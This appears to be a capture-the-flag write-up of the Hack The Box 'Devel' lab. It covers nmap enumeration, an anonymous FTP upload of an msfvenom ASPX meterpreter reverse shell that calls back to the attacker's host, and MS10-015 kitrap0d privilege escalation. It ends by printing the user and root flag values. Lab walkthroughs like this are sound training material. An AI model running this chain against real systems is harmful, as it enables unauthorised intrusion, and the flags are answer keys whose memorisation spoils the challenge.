



# Enumeration
```
┌──(root💀Shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.5              
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-13 11:52 +08
Nmap scan report for 10.10.10.5
Host is up (0.17s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012:r2
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows Server 2008 R2 SP1 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   165.75 ms 10.10.14.1
2   165.87 ms 10.10.10.5

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.96 seconds
```
It seems that the box has port 80 open. So let's visit the website. 




Seems like there is nothing special on the website? Let’s look at the `nmap` scan again.

## Trying FTP port

From the `nmap` scan, we can see that there is a ```welcome.png``` which is in their `ftp` port which is then displayed on the website. 

Let's try connecting to the `ftp` server and upload something.

```
echo Testing FTP > test.txt
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Devel]
└─# ftp 10.10.10.5   
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:shiro): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
13 bytes sent in 0.00 secs (470.1967 kB/s)
```


It works! 

## Creating Reverse Shell

Now let's do a research on `IIS 7.5`. 

A quick Google search shows that ISP runs on `ASP.NET`.

So let's create a `aspx` reverse shell with `msfvenom` to put into the `ftp` server.

```
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Devel]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT: 4444 -f aspx -o exploit.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2864 bytes
Saved as: exploit.aspx
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Devel]
└─# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:shiro): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put exploit.aspx 
local: exploit.aspx remote: exploit.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2901 bytes sent in 0.00 secs (48.5370 MB/s)
ftp> 
```
Now we create a listener in `msfconsole`
```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > exploit
```
Now we go to the webpage ```10.10.10.5/exploit.aspx``` to trigger the reverse shell
```
[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.5:49158) at 2021-05-13 12:39:37 +0800

meterpreter > shell
Process 2700 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          13/5/2021, 6:50:52 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.467 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.547 MB
Virtual Memory: In Use:    594 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::58c0:f1cf:abc6:bb9e
                                 [03]: dead:beef::81e3:d327:33bf:2808
                                 [04]: dead:beef::58c0:f1cf:abc6:bb9e

c:\windows\system32\inetsrv>cd C:\\Users
cd C:\\Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of C:\Users

18/03/2017  02:16 ��    <DIR>          .
18/03/2017  02:16 ��    <DIR>          ..
18/03/2017  02:16 ��    <DIR>          Administrator
17/03/2017  05:17 ��    <DIR>          babis
18/03/2017  02:06 ��    <DIR>          Classic .NET AppPool
14/07/2009  10:20 ��    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)  22.277.140.480 bytes free

C:\Users>cd babis
cd babis
Access is denied.

C:\Users>cd Administrator
cd Administrator
Access is denied.
C:\Users>exit
meterpreter > background
[*] Backgrounding session 1...
```
Seems like we can’t do anything with this account..

I guess we need to find a way to escalate our privilege.

# Privilege Escalation

Let’s use Metasploit’s `local_exploit_suggester` to suggest us something! 

```
msf6 exploit(multi/handler) > search suggest

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank       Check  Description
   -  ----                                                  ---------------  ----       -----  -----------
   0  auxiliary/server/icmp_exfil                                            normal     No     ICMP Exfiltration Service
   1  exploit/windows/browser/ms10_018_ie_behaviors         2010-03-09       good       No     MS10-018 Microsoft Internet Explorer DHTML Behaviors Use After Free
   2  post/multi/recon/local_exploit_suggester                               normal     No     Multi Recon Local Exploit Suggester
   3  auxiliary/scanner/http/nagios_xi_scanner                               normal     No     Nagios XI Scanner
   4  post/osx/gather/enum_colloquy                                          normal     No     OS X Gather Colloquy Enumeration
   5  post/osx/manage/sonic_pi                                               normal     No     OS X Manage Sonic Pi
   6  exploit/windows/http/sharepoint_data_deserialization  2020-07-14       excellent  Yes    SharePoint DataSet / DataTable Deserialization
   7  exploit/windows/smb/timbuktu_plughntcommand_bof       2009-06-25       great      No     Timbuktu PlughNTCommand Named Pipe Buffer Overflow


Interact with a module by name or index. For example info 7, use 7 or use exploit/windows/smb/timbuktu_plughntcommand_bof

msf6 exploit(multi/handler) > use 2
msf6 post(multi/recon/local_exploit_suggester) > options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 37 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```
Doing a quick research on `kitrap0d` shows that the exploit can be used because the `systeminfo` showed that the machine is x86 version which is vulnerable to kitrap0d. So let's use this exploit.
```
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms10_015_kitrap0d 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms10_015_kitrap0d) > options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.187.130  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)


msf6 exploit(windows/local/ms10_015_kitrap0d) > set LHOST tun0
LHOST => tun0
msf6 exploit(windows/local/ms10_015_kitrap0d) > set session 1
session => 1
msf6 exploit(windows/local/ms10_015_kitrap0d) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] Launching notepad to host the exploit...
[+] Process 3284 launched.
[*] Reflectively injecting the exploit DLL into 3284...
[*] Injecting exploit into 3284 ...
[*] Exploit injected. Injecting payload into 3284...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.2:4444 -> 10.10.10.5:49159) at 2021-05-13 12:50:20 +0800
meterpreter > shell
Process 1812 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>cd C:\\Users
cd C:\\Users

C:\Users>cd babis
cd babis

C:\Users\babis>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of C:\Users\babis

17/03/2017  05:17 ��    <DIR>          .
17/03/2017  05:17 ��    <DIR>          ..
17/03/2017  05:17 ��    <DIR>          Contacts
18/03/2017  02:14 ��    <DIR>          Desktop
17/03/2017  05:17 ��    <DIR>          Documents
17/03/2017  05:17 ��    <DIR>          Downloads
17/03/2017  05:17 ��    <DIR>          Favorites
17/03/2017  05:17 ��    <DIR>          Links
17/03/2017  05:17 ��    <DIR>          Music
17/03/2017  05:17 ��    <DIR>          Pictures
17/03/2017  05:17 ��    <DIR>          Saved Games
17/03/2017  05:17 ��    <DIR>          Searches
17/03/2017  05:17 ��    <DIR>          Videos
               0 File(s)              0 bytes
              13 Dir(s)  22.276.079.616 bytes free

C:\Users\babis>cd Desktop
cd Desktop
C:\Users\babis\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of C:\Users\babis\Desktop

18/03/2017  02:14 ��    <DIR>          .
18/03/2017  02:14 ��    <DIR>          ..
18/03/2017  02:18 ��                32 user.txt.txt
               1 File(s)             32 bytes
               2 Dir(s)  22.279.270.400 bytes free

C:\Users\babis\Desktop>type user.txt.txt
type user.txt.txt
9ecdd6a3aedf24b41562fea70f4cb3e8
C:\Users\babis\Desktop>cd C:\\Users\Administrator\Desktop
cd C:\\Users\Administrator\Desktop
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of C:\Users\Administrator\Desktop

14/01/2021  12:42 ��    <DIR>          .
14/01/2021  12:42 ��    <DIR>          ..
18/03/2017  02:17 ��                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  22.279.270.400 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
e621a0b5041708797c4fc4728bc72b4b
```